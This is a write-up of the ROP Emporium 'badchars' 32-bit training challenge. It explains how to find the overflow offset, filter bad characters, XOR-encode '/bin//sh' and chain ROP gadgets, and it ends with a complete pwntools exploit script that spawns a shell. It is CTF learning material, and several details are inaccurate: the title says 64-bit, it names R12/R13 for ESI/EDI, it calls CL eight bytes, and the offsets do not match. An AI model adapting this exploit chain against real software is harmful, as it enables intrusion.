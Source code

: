 ```yaml
---
layout: post
title: ROP Emporium Challenge 4 - Badchars (64 bits)
excerpt_separator: <!--more-->
---
```


Description: *An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack*
<!--more-->

# bacdchars32

Link: https://ropemporium.com/challenge/badchars.html


--------------------------


## 1. Calculating EIP overwrite offset

First we check if the offset is different than in the previous challenge, "ret2win". It seems it is still 40, with 42 characters we see two "41" in RIP registry:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars32/images/Screenshot_1.jpg)



## 2. Studying the bad characters

Then we must find the hexadecimal values of the bad characters the binary tells us that exist in it:

- b - 62
- i - 69
- c - 63
- / - 2f
- <space> - 20
- f - 66
- n - 6e
- s - 73


**bad_chars = ["62", "69", "63", "2f", "20", "66", "6e", "73"]**



## 3. Studying the binary: write-what-where gadgets and XOR operations

Then we find we only have one with the structure "mov [reg], reg":

- 0x08048893 : mov dword ptr [edi], esi ; ret

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep mov | grep "\["
```

We can control R12 and R13 with a single gadget:

- 0x08048899 : pop esi ; pop edi ; ret

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep pop | grep esi
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars32/images/Screenshot_2.jpg)

Then we will look for the start address of .data, which is writable:

```
objdump -x badchars32
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars32/images/Screenshot_3.jpg)

We will use EDI and ESI to write "/bin/sh" in memory, so our script needs these variables:

- **writewhatwhere =  0x08048893**

- **pop_esi_edi_ret = 0x08048899**

- **writable_memory = 0x0804a038**

```
mov [edi], esi

mov [0804a038], "/bin"

mov [0804a03c], "//sh"

```

The problem are the bad characters. We will try to use XOR instructions to change their values.

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep xor
```

- 0x08048890 : xor byte ptr [ebx], cl ; ret

- 0x080484e7 : xor byte ptr [eax], al ; add byte ptr [eax], al ; jmp 0x8048474

- 0x08048ae3 : xor byte ptr [ebp + 0xe], cl ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret



## 4. Creating the exploit

The idea is that we can make a XOR operation between the register whose value the first register is pointing, so it will point to the writable address in memory where we write our payload (in this case encoded so it does not contain any bad characters) and the value of the second register, and the result is stored in the register pointed in the first register.

The easiest one of the three listed XOR gadgets is the first one (*xor byte ptr [ebx], cl ; ret*), and we can control easily ECX and EBX with a single pop-pop-ret gadget:

- 0x08048896 : pop ebx ; pop ecx ; ret

So the idea is:

```
xor [address of writable memory], value_to_xor

xor byte ptr [ebx], cl
```


For reference, the register *CL* is the lower 8 bytes of the register ECX ([source](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/x64-architecture)):

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars32/images/Screenshot_4.jpg)


Then, we can send a encoded payload with the write-what-where gadget (without bad characters) and use the XOR gadget to "decode" the payload and get the original string (in this case, "/bin//sh").

Then, the first character will be XORed with a value, in this case 0x12 (*byte_for_xor="12"*):

```
rop += p32(pop_ebx_ecx) + p32(writable_memory+i) + p32(int(("0x"+byte_for_xor),16)) 
rop += p32(xor_ebx_ecx)
```

We will send a 8-characters command like this one:

```
//bin/sh -> hs/nib// -> 68732f6e69622f2f (Reversed and in hexadecimal)

68732f6e69622f2f xor 1212121212121212 = 7a613d7c7b703d3d

7a613d7c7b703d3d xor 1212121212121212 = 68732f6e69622f2f
```

In this case we will use this custom function:

```
def string_to_hex(string_, byte):
	a = "0x"
	for i in string_[::-1]:
		a += i.encode("hex")
	a = int(a, 16)
	xorer = int( ("0x"+byte*8) , 16)
	xorer = str(hex(a ^ xorer)).replace("0x","")
	xorer = [xorer[i:i+8] for i in range(0, len(xorer), 8)]
	return int(("0x"+xorer[0]),16),int(("0x"+xorer[1]),16)
```

But you can also use these two website:

- XOR online - http://xor.pw/#

- ASCII to HEX - https://www.rapidtables.com/convert/number/ascii-to-hex.html

It works without problem:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars32/images/Screenshot_5.jpg)



## 5. Final exploit

The final exploit code is:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'badchars32'
p = process('./'+binary_name)
elf =  ELF(binary_name)


def check_chars(address):
	bad_chars = ["62", "69", "63", "2f", "20", "66", "6e", "73"]
	vals = hex(address).replace("0x","")
	vals2 = [vals[i:i+2] for i in range(0, len(vals), 2)]
	for v in vals2:
		if v in bad_chars:
			print "Problem with %s"%hex(address)


def string_to_hex(string_, byte):
	a = "0x"
	for i in string_[::-1]:
		a += i.encode("hex")
	a = int(a, 16)
	xorer = int( ("0x"+byte*8) , 16)
	xorer = str(hex(a ^ xorer)).replace("0x","")
	xorer = [xorer[i:i+8] for i in range(0, len(xorer), 8)]
	return int(("0x"+xorer[0]),16),int(("0x"+xorer[1]),16)


system = elf.sym["system"] 
pop_esi_edi_ret = 0x08048899 # 0x08048899 : pop esi ; pop edi ; ret
writewhatwhere =  0x08048893 # 0x08048893 : mov dword ptr [edi], esi ; ret
writable_memory = 0x0804a040 # .bss:  0x0804a040
exit =            0x080485a8 #  80485a8:	c9                   	leave  
xor_ebx_ecx =     0x08048890 # 0x08048890 : xor byte ptr [ebx], cl ; ret
pop_ebx_ecx =     0x08048896 # 0x08048896 : pop ebx ; pop ecx ; ret
byte_for_xor =    "12"
c1,c2 =           string_to_hex("/bin//sh", byte_for_xor)

check_chars(pop_esi_edi_ret)
check_chars(writewhatwhere)
check_chars(writable_memory)
check_chars(exit)
check_chars(xor_ebx_ecx)
check_chars(pop_ebx_ecx)
check_chars(c1)
check_chars(c2)

log.info("System address (.plt): " + hex(system))
log.info(".data section start    " + hex(writable_memory))
log.info("Write-what-where       " + hex(writewhatwhere))
log.info("xor [ebx], cl          " + hex(xor_ebx_ecx))
log.info("pop ebx; pop ecx; ret: " + hex(pop_ebx_ecx))
log.info("pop esi; pop edi; ret: " + hex(pop_esi_edi_ret))
log.info("1st part of command:   " + hex(c1))
log.info("2nd part of command:   " + hex(c2))
log.info("XORed with byte:       0x" + (byte_for_xor))

rop =  "A"*44
rop += p32(pop_esi_edi_ret) + p32(c2) + p32(writable_memory)
rop += p32(writewhatwhere)
rop += p32(pop_esi_edi_ret) + p32(c1) + p32(writable_memory+4) 
rop += p32(writewhatwhere)

for i in range(0,8):
	rop += p32(pop_ebx_ecx) + p32(writable_memory+i) + p32(int(("0x"+byte_for_xor),16)) 
	rop += p32(xor_ebx_ecx)

rop += p32(system) + p32(exit) + p32(writable_memory)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```
